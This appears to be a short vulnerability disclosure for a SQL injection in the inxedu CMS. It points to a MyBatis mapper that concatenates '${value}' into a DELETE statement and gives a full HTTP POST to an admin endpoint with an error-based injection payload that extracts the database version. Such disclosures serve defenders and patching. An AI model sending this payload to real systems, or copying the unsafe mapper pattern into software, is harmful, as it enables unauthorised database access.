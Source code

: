 inxedu through 2018-12-24 has a SQL Injection vulnerability
Vulnerability Type :
SQL Injection

Vendor Homepage: https://www.inxedu.com/
Software Link:http://down.admin5.com/jsp/132874.html

Recurring environment:
CMS v2.0.6
JDK 1.8
Tomcat 7
Mysql 5.5
maven 3.6.3
IntelliJ IDEA 2018


1、the vulnerability code location
/inxedu/demo_inxedu_open/src/main/resources/mybatis/inxedu/website/WebsiteImagesMapper.xml

Here use '$', so it is vulnerable to SQL injection.
```
<!-- 删除广告图片 -->
<delete id="deleteImages" parameterType="java.lang.String">
  DELETE FROM EDU_WEBSITE_IMAGES WHERE IMAGE_ID IN(${value})
</delete>

```


```
POST /admin/article/delete HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/admin/article/showlist
Cookie: JSESSIONID=F36620C2B7BCC31C241FFC3EA9C544FF; inxedulogin_sys_user_=inxedulogin_sys_user_1
Upgrade-Insecure-Requests: 1

articelId=333 AND (SELECT 9875 FROM(SELECT COUNT(*),CONCAT(0x7178766b71,(SELECT (ELT(9875=9875,1))),version(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

```



![image-20201207175510503](https://gitee.com/godzeo/blogimg/raw/master/img/20201207175516.png)






